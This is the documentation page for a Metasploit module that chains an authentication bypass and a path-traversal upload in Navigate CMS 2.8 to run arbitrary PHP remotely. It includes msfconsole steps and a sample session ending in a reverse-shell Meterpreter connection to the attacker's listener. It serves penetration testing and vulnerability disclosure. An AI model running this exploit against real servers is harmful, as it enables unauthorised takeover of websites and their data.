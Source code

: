 ## Description

This module exploits insufficient sanitization in the database::protect method to bypass authentication. It then uses a path traversal vulnerability in navigate_upload.php that allows authenticated users to upload PHP files to arbitrary locations. Together these vulnerabilities allow an unauthenticated attacker to execute arbitrary PHP code remotely. This module was tested against Navigate CMS 2.8.

## Vulnerable Application 

[Navigate CMS 2.8](https://master.dl.sourceforge.net/project/navigatecms/releases/navigate-2.8r1302.zip)

## Verification Steps

1. Install Navigate CMS
2. Start `msfconsole`
3. `use exploit/multi/http/navigate_cms_rce`
4. `set RHOST <rhost>`
5. `check`
6. You should see `The target appears to be vulnerable.`
7. `exploit`
8. You should get a meterpreter session

## Scenarios

### Navigate CMS on Ubuntu 18.04

```
msf5 > use exploit/multi/http/navigate_cms_rce
msf5 exploit(multi/http/navigate_cms_rce) > set RHOST 192.168.178.45
RHOST => 192.168.178.45
msf5 exploit(multi/http/navigate_cms_rce) > check
[*] 192.168.178.45:80 The target appears to be vulnerable.
msf5 exploit(multi/http/navigate_cms_rce) > exploit

[*] Started reverse TCP handler on 192.168.178.35:4444 
[+] Login bypass successful
[+] Upload successful
[*] Triggering payload...
[*] Sending stage (37775 bytes) to 192.168.178.45
[*] Meterpreter session 1 opened (192.168.178.35:4444 -> 192.168.178.45:52720) at 2018-09-26 22:24:59 +0200

meterpreter > 
```
